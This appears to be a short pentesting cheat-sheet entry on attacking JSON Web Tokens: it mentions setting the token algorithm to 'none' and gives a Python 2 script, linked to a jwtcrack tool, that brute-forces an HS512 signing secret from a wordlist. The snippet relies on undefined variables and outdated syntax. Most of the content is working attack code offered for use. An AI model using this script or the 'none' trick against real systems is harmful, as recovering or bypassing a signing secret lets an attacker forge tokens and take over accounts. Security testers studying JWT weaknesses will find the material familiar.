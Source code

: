 # set the used algorithm to "none"

# brute force the secret :
[jwtcrack.py](https://github.com/Sjord/jwtcrack.git)

```python

# pip install pyjwt
# pip install cryptography
# supports only HS256/384/512

# wordlist : https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/big.txt

import jwt
with file(wordlist) as secrets:
	for secret in secrets:
		try:
			payload = jwt.decode(encoded, secret.rstrip(), algorithms=['HS512'])
			print "\n[+] SECRET:" + secret.rstrip()
			print payload 
			break
		except jwt.InvalidTokenError:
			pass
		except jwt.DecodeError:
			pass
		else:
			pass
```